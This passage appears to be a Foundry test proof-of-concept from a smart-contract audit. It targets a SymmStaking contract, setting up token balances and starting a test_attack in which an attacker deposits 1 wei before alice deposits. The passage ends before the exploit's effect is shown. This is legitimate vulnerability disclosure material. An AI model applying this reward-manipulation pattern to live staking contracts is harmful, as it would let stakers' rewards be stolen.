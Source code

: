 ```solidity
    address public bob;
    address public attacker;


    function setUp() public {
        admin   = address(1);
        alice   = address(2);
        bob     = address(3);
        attacker  = address(4);
 
        vm.label(admin, "admin");
        vm.label(alice, "alice");
        vm.label(bob, "bol");
        vm.label(attacker, "attacker");

        vm.startPrank(admin);
        mockSymmioToken = new Symmio("mock", "mock", admin);
        mockSymmioToken.grantRole(mockSymmioToken.MINTER_ROLE(), admin);
        mockSymmioToken.mint(admin, 10000e18);

        mockSymmioToken.transfer(alice, 1000e18);
        mockSymmioToken.transfer(bob, 1000e18);
        mockSymmioToken.transfer(attacker, 1000e18);
        vm.stopPrank();
        

        SymmStaking staking = new SymmStaking();
        symmStakingProxy = new ERC1967Proxy(
            address(staking),
            abi.encodeWithSelector(staking.initialize.selector, admin, address(mockSymmioToken))
        );

        vm.startPrank(admin);
        mockRewardToken = new MockRewardToken("Reward", "Reward");
        mockRewardToken.transfer(admin, 10000e18);
        
        symmStaking = SymmStaking(address(symmStakingProxy));
        symmStaking.grantRole(mockSymmioToken.MINTER_ROLE(), admin);

        mockRewardToken.approve(address(symmStaking), type(uint256).max);
        symmStaking.configureRewardToken(address(mockRewardToken), true);

        address[] memory tokens = new address[](1);
        tokens[0] = address(mockRewardToken);
        uint256[] memory rewardAmounts = new uint256[](1);
        rewardAmounts[0] = 10000e18;

        symmStaking.notifyRewardAmount(tokens, rewardAmounts);
        vm.stopPrank();
    }

    function test_attack() public {
        vm.startPrank(attacker);
        mockSymmioToken.approve(address(symmStaking), type(uint256).max);
        symmStaking.deposit(1, attacker);
        vm.stopPrank();

        vm.warp(block.timestamp + 5 days);

        vm.startPrank(alice);
        mockSymmioToken.approve(address(symmStaking), type(uint256).max);
        symmStaking.deposit(1000e18, alice);
        vm.stopPrank();
```